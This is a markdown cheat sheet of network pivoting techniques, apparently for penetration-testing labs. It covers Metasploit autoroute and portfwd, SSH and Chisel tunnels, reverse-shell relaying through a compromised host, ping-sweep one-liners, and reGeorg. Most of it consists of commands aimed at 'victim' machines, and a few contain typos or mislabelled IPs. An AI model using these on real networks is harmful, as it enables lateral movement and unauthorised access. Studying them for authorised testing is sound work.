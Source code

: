 # Routing
## In msfconsole
Autoroute (outside meterpreter session)
- Location: "/usr/share/metasploit-framework/modules/post/multi/manage/autoroute.rb"
```
run autoroute -s 10.10.10.0/20 3
```
route add (Inside meterpreter session)
- Location: "/usr/share/metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/net/route.rb"
```
route add 10.10.10.0 255.255.255.0 1,2,3(session id)
```




# Proxy
## SSH Proxy
- Execute following command on the compromised machine
- Proxy service will be on port 4444 of the attacking machine(ssh executing machine)
-  Use either with proxychain sock4 or other alternatives
```
ssh -D 4444 compromised_machine@192.168.1.110
```





## Chisel Proxy
### Chisel Reverse
- Execute following command on the compromised machine
```
chisel server --socks5 --reverse
```
- Chisel server will be on port 8080 of the attacking machine(chisel command executing machine)
- Connect back from compromised machine via Fingerprint generated from server command
```
chisel client --fingerprint "       " 192.168.1.100:8080 R:socks
```
### Chisel Direct
- Use for reverse-shell connections
```
chisel client --fingerprint "       " 192.168.1.100:8080 0.0.0.0:9999:192.168.1.100:9999 (without 0.0.0.0 also works)
```







# Metasploit PortForwarding and Getting ReverseShell Instead of Bindshell
- Need meterpreter session on compromised machine
- Route traffic inside internal network
```
portfwd add -R -L 10.10.16.3(attacking machine ip) -l 8888(attacking machine port) -p 7777(compromised machine 1 port) -r 10.0.24.164(compromised machine 1)
```
- Open another msfconsole with multi/handler and set lhost to 0.0.0.0(attacking machine) , set lport to 8888(attacking machine port)
- In revershell payload set lhost to 10.0.24.164(compromised machine 1) set lport to -p 7777(compromised machine 1 port)
- What happened is when victim connect reverse shell back, it connect to compromised machine 1 first on port 7777, but it is forwarded to 0.0.0.0(attacking machine) on port 8888 and got the connection.






# SSH Port Forwarding 

## Discovering Alive Hosts from Compormised Machine
```
metasploit windows/gather/arp_scanner
```
### Window
powershell
```
1..254 | ForEach-Object { $ip = "192.168.1.$_"; if (Test-Connection -ComputerName $ip -Count 1 -Quiet) { Write-Output "$ip is reachable" } else { Write-Output "$ip is unreachable" } }
```

### Linux
```
for i in {1..254}; do ping -c1 -W1 192.168.1.${i} & done | grep
```









# Important!!
- Please take note 192.168.1.100 as attacking machine(my machine) , 192.168.1.110 as compromised machine(victim 1), 192.168.2.100 as internal machine(victim 2)
## Direct 
- You want to access a web server running on 192.168.2.100 on port 80 through compromised machine 192.168.1.100
- Take note that !!! 8080 "-L 8080:" !!! is ssh command executing machine localhost port 
```
ssh -L 8080:192.168.2.100:80 compromised_machine@192.168.1.100
```

## Reverse

- You want to make a localhost port 80 of your "ssh command executing machine(attacking machine)192.168.1.100" accessible from 192.168.1.110(compromised machine) on port 8080.

```
ssh -R 8080:localhost:80 compromised_machine@192.168.1.100
```

# Chisel Port Forwarding
- First host a chisel server to listen on attacking machine
```
chisel server --sock5 --reverse
```
- Make magic in compromised machine(victim 1)
- Making the victim2's port 80 accessible from the attacking machine's port 8000 (Same as SSH -L) port forwarding
```
chisel client --fingerprint "fingerprint_generated_from_attacking_machine" 192.168.1.100:8080(ip and port of server) R:8000:192.168.2.100:80
```






# reGeorg (Used for unprivileged user compromised)

- On attacker machine
- On victim machine, upload tunnel.php
```
python reGeorgproxy.py -p 9050 -u http://ipaddress:port/
```


